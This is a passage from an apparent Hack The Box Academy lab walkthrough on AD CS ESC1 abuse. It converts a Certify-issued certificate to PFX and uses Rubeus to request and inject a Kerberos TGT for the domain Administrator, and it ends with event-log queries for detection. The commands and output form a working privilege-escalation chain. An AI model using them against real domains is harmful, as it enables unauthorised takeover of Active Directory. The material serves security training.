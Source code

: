 ```powershell-session

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx


Certify completed in 00:00:15.8803493
```

![Certify request certificate](https://academy.hackthebox.com/storage/modules/176/A13/requestCert.png)

Once the attack finishes, we will obtain a certificate successfully. The command generates a `PEM` certificate and displays it as base64. We need to convert the `PEM` certificate to the [PFX](https://learn.microsoft.com/en-us/windows-hardware/drivers/install/personal-information-exchange---pfx--files) format by running the command mentioned in the output of Certify (when asked for the password, press `Enter` without providing one), however, to be on the safe side, let's first execute the below command to avoid bad formatting of the `PEM` file.

  PKI - ESC1

```shell-session
LeDaav@htb[/htb]$ sed -i 's/\s\s\+/\n/g' cert.pem
```

Then we can execute the `openssl` command mentioned in the output of Certify.

  PKI - ESC1

```shell-session
LeDaav@htb[/htb]$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

![Convert PEM to PFX](https://academy.hackthebox.com/storage/modules/176/A13/convertPEM.png)

Now that we have the certificate in a usable `PFX` format (which `Rubeus` supports), we can request a Kerberos TGT for the account `Administrator` and authenticate with the certificate:

  PKI - ESC1

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFaTCCBWVhggVhMIIFXaADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBSMwggUfoAMCARKhAwIBAqKCBREEggUN/0cVeDEy
      +dWkCObsKvVAhfrZdORL3htCnalVR1GYRWahL2KRC3dFKGMU8z9RxXNGBRxnx2jOQA7KIpTKAl56pHMm
      XGp78caInKsbfF/CdLKdzayIRZH0scYWIMflA+M3crgUw6UFw6QNywLElxhsN1eWv14CAx52i+IcZulx
      ZX1Ldq9JZIDd89rV916j3Lx9f4BGNYU4tqUG3adHoJF/YH/LABc21YJaG88qoAju5I1/LlVBAwStAU7t
      Sw4OAn3lsau8St4IY+pbzX5pM25nSjZBwjk5sv7OmWGLUO74l5DgVDwdfLKiulAt5dze4OjBez0LDPdo
      pP1+fFE0xXaYSAiccAkudm7OYScbnl7Leaz+4xrgXFWkPaOqJR+CyReovaBozcM/02Hf7klxChHQ5TP1
      4zEaf+XVqbUcv+dNL4TN1kNK90+P+CdtV7RVXdIOYDsdTkRroXxuuafLFE5zR4OvUh73/Ch/Z0jTAMbP
      2d0x7CNyqzWvJcmeoLn2Z/YjqfrvyXgSywHdpGCQ05F3S5kz1YChG7n+DyYdxhuDGBthTy82+gzz4il8
```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *